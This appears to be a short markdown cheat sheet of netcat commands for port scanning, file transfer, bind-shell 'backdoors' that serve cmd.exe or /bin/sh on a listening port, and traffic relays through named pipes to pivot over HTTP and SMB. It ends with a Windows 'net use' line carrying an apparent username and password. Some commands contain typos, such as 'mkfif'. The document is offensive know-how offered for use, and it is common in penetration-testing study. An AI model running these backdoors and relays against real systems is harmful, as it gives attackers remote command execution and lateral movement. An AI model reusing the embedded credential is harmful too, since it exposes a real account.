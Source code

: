 ### NC Scanning
nc -v -w3 -z <ip> <ports>

## Data Transfer (Listener to client)
### Client
nc -nlvp 8000 < yeet.txt
### Server 
nc 127.0.0.1 8000 > yeet.txt & 
## Data Tramsfer (Client to Listener)
### Client 
nc -nlvp 8000 > yeet.txt
### Server 
nc 127.0.0.1 8000 < yeet.txt 

## Backdoors
nc -nlvp 8000 -e cmd.exe
nc -nlvp 8000 -e /bin/sh

## Relays
### Client
nc 10.10.10.10 2222 
### Relay Device/Listener 
nc -nlvp 2222 | nc 10.10.10.100 80 

### Relay with HTTP 
mkfifo namedpipe
nc -l -p 8080 < namedpipe | nc 172.30.0.55 80 > namedpipe
curl http://172.30.0.50:8080



### Relay with SMB 
mkfif namedpipe
sudo nc -l -p 445 < namedpipe | nc 172.30.0.22 445 > namedpipe
net use * \\10.10.75.1\data /u:erigby weddingrice
net use
Z:

